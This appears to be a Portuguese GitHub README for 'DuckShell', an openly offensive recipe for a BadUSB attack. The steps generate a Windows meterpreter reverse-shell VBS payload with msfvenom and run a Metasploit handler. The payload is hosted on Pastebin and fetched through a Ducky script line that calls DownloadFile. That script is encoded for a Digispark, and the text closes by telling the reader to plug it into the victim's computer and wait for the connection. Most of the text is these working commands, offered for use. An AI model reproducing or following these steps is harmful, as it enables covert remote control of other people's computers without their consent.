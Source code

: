 # DuckShell

                     .ed"""" """$$$$be.
                   -"           ^""**$$$e.
                 ."                   '$$$c
                /                      "4$$b 
               d  3                      $$$$                            
               $  *                   .$$$$$$
              .$  ^c           $$$$$e$$$$$$$$.
              d$L  4.         4$$$$$$$$$$$$$$b
              $$$$b ^ceeeee.  4$$ECL.F*$$$$$$$
  e$""=.      $$$$P d$$$$F $ $$$$$$$$$- $$$$$$
 z$$b. ^c     3$$$F "$$$$b   $"$$$$$$$  $$$$*"      .=""$c
4$$$$L        $$P"  "$$b   .$ $$$$$...e$$        .=  e$$$.
^*$$$$$c  %..   *c    ..    $$ 3$$$$$$$$$$eF     zP  d$$$$$
  "**$$$ec   "   %ce""    $$$  $$$$$$$$$$*    .r" =$$$$P""
        "*$b.  "c  *$e.    *** d$$$$$"L$$    .d"  e$$***"
          ^*$$c ^$c $$$      4J$$$$$% $$$ .e*".eeP"
             "$$$$$$"'$=e....$*$$**$cz$$" "..d$*"
               "*$$$  *=%4.$ L L$ P3$$$F $$$P"
                  "$   "%*ebJLzb$e$$$$$b $P"
                    %..      4$$$$$$$$$$ "
                     $$$e   z$$$$$$$$$$%
                      "*$c  "$$$$$$$P"
                       ."""*$$$$$$$$bc
                    .-"    .$***$$$"""*e.
                 .-"    .e$"     "*$c  ^*b.
          .=*""""    .e$*"          "*bc  "*$e..
        .$"        .z*"               ^*$e.   "*****e.
        $$ee$c   .d"                     "*$.        3.
        ^*$E")$..$"                         *   .ee==d%
           $.d$$$*     Hacked by Victor      *  J$$$e*
            """""       Team Dark Shell          "$$$"

=========================================================

#Crie seu Payload atraves do Metasploit usando o seguinte codigo>

msfvenom -p windows/meterpreter/reverse_tcp -f vbs –smallest LHOST=“attacker ip” LPORT=444 -o /root/Desktop/payload.txt
(Substitua "attacker ip" pelo seu ip local)

=========================================================

#Execute o Metasploit

systemctl start postgresql
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST "attacker ip"
set RHOST 444
exploit

#Jogue o codigo criado no arquivo "payload.txt" no Pastebin:

https://pastebin.com/
(Clique em "Create New Paste" e copie o a url criada para seu arquivo)

=========================================================

#Modifique o arquivo payload.duck inserindo o link do Pastebin na seguinte linha:

(Substitua >>link<< pelo link do Pastebin)
STRING $client.DownloadFile(' >>link<< ','Sys32Data.vbs')

=========================================================

#Execute o duckencoder no arquivo payload.duck

cat payload.duck | python duckencoder.py -p -l br > inject.bin

=========================================================

#Excute o duck2spark no arquivo inject.bin

./duck2spark.py -i inject.bin -l 1 -f 2000 -o inject.ino

=========================================================

#Abra o arquivo inject.ino no Arduino
Site Download Arduino

Windows(https://www.arduino.cc/download.php?f=/arduino-1.8.5-windows.exe)
Linux(https://www.arduino.cc/download_handler.php?f=/arduino-1.8.5-linux64.tar.xz)

=========================================================

#Carregue o codigo através do Arduino em seu Digispark
Site Compra
(https://www.baudaeletronica.com.br/digispark-attiny85.html?gclid=CjwKCAjw8NfrBRA7EiwAfiVJpbY-3W7UOWFbtM9CaCiscVXVHin11btfv47m_17zTJEQGgbhG_D4zhoCnt8QAvD_BwE)

=========================================================

#Agora Basta Apenas Conectar ao Computador da Vitima e esperar a Conexão :)

=========================================================
